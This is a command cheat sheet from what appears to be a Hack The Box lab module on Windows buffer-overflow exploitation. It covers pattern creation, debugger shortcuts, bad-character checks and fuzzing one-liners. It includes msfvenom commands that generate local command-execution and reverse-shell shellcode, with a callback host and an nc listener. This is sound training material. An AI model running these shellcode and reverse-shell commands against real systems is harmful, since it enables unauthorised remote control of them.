
#####   Cheat Sheet

The cheat sheet is a useful command reference for this module.

## Buffer Overflow Steps

1. Fuzzing Parameters
2. Controlling EIP
3. Identifying Bad Characters
4. Finding a Return Instruction
5. Jumping to Shellcode

## Commands

|Command|Description|
|---|---|
|**General**||
|`xfreerdp /v:<target IP address> /u:htb-student /p:<password>`|RDP to Windows VM|
|`/usr/bin/msf-pattern_create -l 5000`|Create Pattern|
|`/usr/bin/msf-pattern_offset -q 31684630`|Find Pattern Offset|
|`netstat -a \|findstr LISTEN`|List listening ports on a Windows machine|
|`.\nc.exe 127.0.0.1 8888`|Interact with port|
|`msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'`|Generate Local Privesc Shellcode|
|`msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.10 LPORT=1234 -f 'python' -b '\x00\0x0a'`|Generate Reverse Shell Shellcode|
|`nc -lvnp 1234`|Listen for reverse shell|
|**x32dbg**||
|`F3`|Open file|
|`alt+A`|Attach to a process|
|`alt+L`|Go to Logs Tab|
|`alt+E`|Go to Symbols Tab|
|`ctrl+f`|Search for instruction|
|`ctrl+b`|Search for pattern|
|`Search For>All Modules>Command`|Search all loaded modules for instruction|
|`Search For>All Modules>Pattern`|Search all loaded modules for pattern|
|**ERC**||
|`ERC --config SetWorkingDirectory C:\Users\htb-student\Desktop\`|Configure Working Directory|
|`ERC --pattern c 5000`|Create Pattern|
|`ERC --pattern o 1hF0`|Find Pattern Offset|
|`ERC --bytearray`|Generate All Characters Byte Array|
|`ERC --bytearray -bytes 0x00`|Generate Byte Array excluding certain bytes|
|`ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin`|Compare bytes in memory to a Byte Array file|
|`ERC --ModuleInfo`|List loaded modules and their memory protections|
|**Python**||
|`python -c "print('A'*10000)"`|Print fuzzing payload|
|`python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"`|Write fuzzing payload to a file|
|`breakpoint()`|Add breakpoint to Python exploit|
|`c`|Continue from breakpoint|